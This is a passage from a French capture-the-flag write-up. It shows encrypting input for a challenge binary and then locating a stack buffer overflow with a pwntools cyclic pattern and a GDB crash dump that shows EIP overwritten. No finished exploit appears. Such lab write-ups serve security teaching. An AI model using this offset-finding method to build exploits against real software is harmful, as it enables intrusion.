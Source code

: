 Et ainsi chiffrer une citation que le binaire du CTF décode correctement :

```shellsession
$ python crypt.py quote.txt thisisdope
$ ./level4 quote.txt.crypt thisisdope
Message: "Always forgive your enemies; nothing annoys them so much."
- Oscar Wilde

```

## Hammer time

Si on a un buffer sur la stack il a forcément ses limites. J'utilise `pwntools` pour générer une chaine de caractères sans répétitions qui me permettra de savoir à quel index sont présents tel ou tel pattern :

```python
>>> from pwnlib.util.cyclic import cyclic_gen
>>> g = cyclic_gen()
>>> g.get(5000)
```

Cela me génère une chaine de caractères de 5000 octets que je place dans un fichier et que je chiffre avec mon code Python.

J'appelle alors le binaire du CTF avec les bons arguments dans GDB :

```shellsession
(gdb) r ./overflow.txt.crypt password
Starting program: /tmp/ctf/level4 ./overflow.txt.crypt password
Message: bebabeca--- snip ---byadbzadcbadccadcdadcea
WID=32505863

Program received signal SIGSEGV, Segmentation fault.
0x74636169 in ?? ()
(gdb) info reg
eax            0x0                 0
ecx            0x80cb700           135051008
edx            0x80cb700           135051008
ebx            0x0                 0
esp            0xffffcc20          0xffffcc20
ebp            0x74636168          0x74636168
esi            0x8048c50           134515792
edi            0x59403aa2          1497381538
eip            0x74636169          0x74636169
eflags         0x10292             [ AF SF IF RF ]
cs             0x23                35
ss             0x2b                43
ds             0x2b                43
es             0x2b                43
fs             0x0                 0
gs             0x63                99
(gdb) x/s 0x80cb700
0x80cb700 <main_arena>: ""
(gdb) x/s $esp
0xffffcc20:     "jactkactlactmactn---snip ---cviacv"...
```
